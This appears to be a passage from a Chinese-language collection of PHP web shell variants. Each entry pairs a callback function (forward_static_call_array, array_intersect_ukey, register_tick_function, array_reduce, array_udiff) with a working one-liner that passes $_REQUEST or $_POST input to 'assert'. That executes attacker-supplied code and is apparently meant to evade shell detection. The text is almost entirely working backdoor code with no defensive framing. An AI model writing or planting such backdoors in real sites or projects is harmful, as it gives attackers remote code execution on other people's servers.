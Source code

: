 ```php
<?php
	forward_static_call_array("assert",array($_REQUEST['h']));
?>
```

#### array_intersect_ukey

```php
// (PHP 5 >= 5.1.0, PHP 7)
// array_intersect_ukey — 用回调函数比较键名来计算数组的交集
```

```php
<?php
    array_intersect_ukey(array($_REQUEST['h']=>1),array(1),"assert");
?>
```

#### register_tick_function

```php
// register_tick_function — Register a function for execution on each tick
register_tick_function ( callable $function [, mixed $arg [, mixed $... ]] ) : bool
```

```php
<?php
	declare(ticks=1);
	register_tick_function("assert", $_REQUEST['h']);
?>
```

#### array_reduce

```php
// (PHP 4 >= 4.0.5, PHP 5, PHP 7)
// array_reduce — 用回调函数迭代地将数组简化为单一的值
array_reduce ( array $array , callable $callback [, mixed $initial = NULL ] ) : mixed
```

```php
<?php
	$arr = array(1);
	array_reduce($arr, "assert", $_REQUEST['h']);
?>
```

#### array_udiff

```php
// (PHP 5, PHP 7)
// array_udiff — 用回调函数比较数据来计算数组的差集
array_udiff ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
	$arr = array($_POST['h']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, "assert");
?>
```
